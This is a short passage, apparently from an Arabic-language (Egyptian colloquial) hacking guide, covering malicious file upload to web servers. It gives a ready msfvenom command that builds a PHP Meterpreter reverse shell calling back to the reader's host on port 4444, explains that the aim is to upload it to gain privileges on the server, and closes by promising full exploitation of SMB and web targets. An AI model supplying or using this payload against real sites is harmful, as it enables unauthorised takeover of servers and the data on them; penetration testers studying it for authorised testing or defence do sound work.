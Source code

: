 ## **🛠️ 5. تجربة رفع الملفات الضارة (File Upload Exploitation)**

🔹 لو الموقع بيسمح برفع ملفات، ممكن نحاول نرفع **ملف PHP reverse shell**.

### ✅ **إنشاء Reverse Shell باستخدام msfvenom**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=your-ip LPORT=4444 -f raw > shell.php
```

🟢 **الخلاصة بالعامية المصرية:**  
هنشوف لو الموقع بيسمح برفع ملفات خبيثة عشان ناخد صلاحيات على السيرفر.

---

🚀 **بكده عندك دليل كامل لاختبار اختراق SMB والويب من الصفر لحد الاستغلال الكامل! 🔥💀**